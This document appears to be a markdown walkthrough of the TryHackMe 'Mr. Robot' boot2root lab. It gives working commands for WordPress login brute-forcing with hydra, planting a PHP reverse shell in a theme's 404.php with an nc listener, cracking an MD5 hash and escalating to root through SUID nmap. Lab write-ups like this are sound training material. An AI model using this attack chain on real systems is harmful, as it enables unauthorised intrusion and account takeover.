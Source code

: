 # Mr. Robot CTF Walkthrough

a walkthrough of the popular Mr. Robot themed boot2root machine. in this box, you'll learn how to exploit wordpress, crack hashes, and escalate privileges  

# Introduction

**Name:** Mr Robot CTF  
**Challenge type:** Boot2Root machine  
**Rated difficulty:** Medium  
**Link:** https://tryhackme.com/room/mrrobot  

# Nmap Scan Results

we will start by scanning open ports on the target machine, here's what nmap found:  

```
PORT    STATE  SERVICE  VERSION
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
MAC Address: 02:6E:76:1C:2E:07 (Unknown)
```

ports 80 and 443 are open running Apache, but neither site has a proper title or header  

# Enumerating HTTP and HTTPS  

interacting with the HTTP and HTTPS services didn't immediately reveal much. here's a look at `robots.txt` which caught my attention:  

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

looks like we found the first key file `key-1-of-3.txt` and a wordlist named `fsocity.dic`.  

downloading the wordlist with wget:  

```bash
wget http://10.10.99.69/fsocity.dic
```

the file contains tons of duplicate words:  

```
angela
angela
angela
...
```

so I cleaned it up by removing duplicates:  

```bash
sort fsocity.dic | uniq -d > clean-dic.txt
```

Running gobuster on the site revealed it's running Wordpress:  

```
/wp-content           (Status: 301)
/admin                (Status: 301)
/audio                (Status: 301)
/intro                (Status: 200)
```

accessing `/wp-login.php` gave me a login page where username enumeration was possible.  

![Username enumeration](../images/thm/mrrobot/username-enum.png)  

confirmed `elliot` is a valid username, while guessing main Mr. Robot characters  

![Valid username elliot](../images/thm/mrrobot/valid-user.png)  

next, I brute forced the login using hydra with the cleaned dictionary and username `elliot`:  

```bash
hydra -l elliot -P clean-dic.txt 10.10.99.69 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=The password you entered for the username"
```

`hydra` found a valid password for elliot!  

```
elliot:XXXXXXX
```

after logging in, going to **Appearance → Editor** gives us a form to edit theme files  

![Wordpress theme editor](../images/thm/mrrobot/theme-editor.png)  

I edited the `404.php` template with a PHP reverse shell (from pentestmonkey's repo), adding my IP and port.  

after updating the `404.php` with the reverse shell code.  

![Reverse shell injected](../images/thm/mrrobot/reverse-shell-injected.png)  

remember to start your listener:  

```bash
nc -lvnp 1337
```

visiting a non-existent page triggers the reverse shell, and I got a shell as user daemon:  

```
nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.4.7.139] from (UNKNOWN) [10.10.99.69] 39735
$ whoami
daemon
```

# Privilege Escalation  

after looking around for a bit, inside `/home/robot` I found two files:  

```
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
```

I couldn't read the second key, but I could read the password hash:  

```
robot:c3fcd3d76192e4007dfb496cca67e13b
```

I took the hash to CrackStation and got the password  

![Hash cracked on CrackStation](../images/thm/mrrobot/hash.png)  

trying to switch user with `su robot` initially failed because the shell was unstable:  

```
su: must be run from a terminal
```

I stabilized the shell with:  

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

after that, we can switch to the robot user successfully.  

# Getting Root  

after more enumeration, I didn't find much at first. then I checked for SUID binaries:  

```bash
find / -perm -u=s -type f 2>/dev/null
```

```
/bin/ping
/bin/umount
/bin/mount
...
/usr/local/bin/nmap
...
```

if you've done Boot2Root machines before, you know nmap with SUID is unusual. checking GTFOBins confirmed it.  

![GTFOBins nmap exploit](../images/thm/mrrobot/gtfobins.png)  

exploiting the SUID nmap binary to spawn a root shell:  

```bash
nmap --interactive
```

```
nmap> !sh
# whoami
root
```

this machine was fun, the final key is in `/root`.  
